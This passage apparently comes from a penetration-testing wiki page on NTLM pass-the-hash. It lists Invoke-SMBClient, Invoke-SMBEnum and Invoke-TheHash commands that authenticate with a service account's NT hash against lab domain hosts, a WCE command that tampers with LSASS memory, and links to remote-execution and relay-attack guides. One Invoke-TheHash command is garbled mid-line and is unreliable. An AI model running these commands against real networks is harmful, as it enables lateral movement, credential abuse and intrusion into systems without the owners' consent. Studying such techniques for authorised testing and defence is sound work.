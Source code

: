 ```text
Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose
```

#### Invoke-SMBEnum

```text
Invoke-SMBEnum -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 -Target dcorp-mgmt.dollarcorp.moneycorp.local -verbose
```

#### Invoke-TheHash

This function is a **mix of all the others**. You can pass **several hosts**, **exclude** someones and **select** the **option** you want to use \(_SMBExec, WMIExec, SMBClient, SMBEnum_\). If you select **any** of **SMBExec** and **WMIExec** but you **don't** give any _**Command**_ parameter it will just **check** if you have **enough permissions**.

```text
Invoke-TheHash -Type WMIExec -Target 192.168.100.0/24 -TargetExclude 192.168.100.50 -Username Administ -ty    h F6F38B793DB6A94BA04A52F1D3EE92F0
```

### [Evil-WinRM Pass the Hash](../../pentesting/5985-5986-pentesting-winrm.md#using-evil-winrm)

### Windows Credentials Editor \(WCE\)

**Needs to be run as administrator**

This tool will do the same thing as mimikatz \(modify LSASS memory\).

```text
wce.exe -s <username>:<domain>:<hash_lm>:<hash_nt>
```

### Manual Windows remote execution with username and password

* \*\*\*\*[**PsExec**](psexec-and-winexec.md)\*\*\*\*
* [**SmbExec**](smbexec.md)\*\*\*\*
* \*\*\*\*[**WmicExec**](wmicexec.md)\*\*\*\*
* \*\*\*\*[**AtExec**](atexec.md)\*\*\*\*

## Extracting credentials from a Windows Host

**For more information about** [**how to obtain credentials from a Windows host you should read this page**](../stealing-credentials/)**.**

## More about NTLM Relay and Responder

**Read** [**here a more detailed guide**](../../pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md) **on howto perform those attacks**

